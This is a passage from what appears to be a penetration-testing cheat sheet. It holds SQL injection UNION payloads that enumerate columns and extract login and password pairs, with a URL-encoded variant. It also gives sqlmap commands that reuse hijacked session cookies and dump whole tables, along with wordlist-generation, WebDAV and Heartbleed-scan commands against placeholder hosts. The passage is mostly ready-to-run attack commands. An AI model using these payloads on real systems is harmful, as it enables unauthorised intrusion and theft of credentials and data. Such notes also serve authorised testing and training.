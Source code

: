 	Get the list of columns: 
	1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns;
	
	Example of getting username and password fields: 
	1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;

    Example with URL encoding:	
	http://INSERTIPADDRESS/database.php?id=1%20UNION%20SELECT%201,concat%28table_name,%27:%27,%20column_name%29%20FROM%20information_schema.columns


SQLMap

    Easy mode:
    sqlmap --wizard

	If you need to authenticate before you can access vulnerable parameter. Capture request with burp and save to request.txt:
    sqlmap -r request.txt
	
	Or grab cookie out of burp/proxy and insert into command line option:
	sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --cookie "PHPSESSIONID=1234example"
	
    Dump:
    sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql -D databasename -T tablename --dump
	
    Crawl:
    sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
		
## Misc

Generate unique wordlist off of website

	cewl -w websitewordlist.txt  http://INSERTIPADDRESS

Connect to WebDAV

    cadaver http://IPADDRESS/webdav


## Port 443 - HTTPS

    # Read SSL Cert
    openssl s_client -connect HOSTNAME:PORT -showcerts

    
    # Heartbleed
    sslscan INSERTIPADDRESS:443
